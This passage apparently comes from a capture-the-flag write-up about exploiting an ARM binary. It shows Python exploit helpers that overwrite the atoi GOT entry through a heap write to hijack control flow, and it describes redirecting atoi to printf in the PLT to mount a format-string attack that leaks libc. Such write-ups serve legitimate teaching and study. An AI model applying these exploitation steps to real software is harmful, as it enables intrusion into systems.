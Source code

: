 The heap is now set dynamically with the correct offset. The next call to
`malloc()` will overwrite the GOT entry of `atoi@got` with our data!

{% highlight python %}
def update_key(s):
    ok("malloc(key)")
    select_menu_entry(s, 1)
    key = ""
    key+= "\xbb"*4              # atoi@got will be overwritten with this value
    key+= "B"*4 + "C"*4 + "D"*4
    s.read_until("enter the new 16-bit key:")
    s.write(key)
    s.read_until("the key is updated!")
    return

def leave(s):
    ok("Leaving - and triggering atoi@got")
    select_menu_entry(s, 4)
    return
{% endhighlight %}

Which produces the following result in `gef`:
![control-pc](https://i.imgur.com/UdmAg6N.png)

Bingo! We control the execution flow! Good! But now where do we go?

The binary is dynamically linked, and does not contains any gadget that would
allow us to call directly `execve` so we need a leak from the libc.


#### Using function indirection to leak memory using printf ####

I'm not sure if this is the best way to do, but I like this approach: the idea
is that, when you can overwrite the GOT, point an "interesting" function of the
control flow to `printf@plt`. This way, if you can control the parameter of this
call, you can use a regular format string attack to read/write everywhere!!

The `read_int()` (at 0x875c) offers a perfect exploitation case:
![read-int-ida](https://i.imgur.com/81p3djs.png)

`fgets` at 0x878c allows us to provide 32 bytes in the stack, which will be
given to `atoi` as a parameter. So if we overwrite `atoi@got` with the address
of `printf@plt`, we have a good case for a format string attack.

So using the technique above, we can overwrite `atoi@got` with the address of
`printf` in the [PLT](https://en.wikipedia.org/wiki/Dynamic_linker):

{% highlight bash %}
.plt:00008594 ; int printf(const char *format, ...)
.plt:00008594 printf                                  ; CODE XREF: print_banner+58
.plt:00008594                                         ; update_key+38 ...
.plt:00008594                 ADR     R12, 0x859C
.plt:00008598                 ADD     R12, R12, #0x8000
.plt:0000859C                 LDR     PC, [R12,#(printf_ptr - 0x1059C)]! ; __imp_printf
{% endhighlight %}
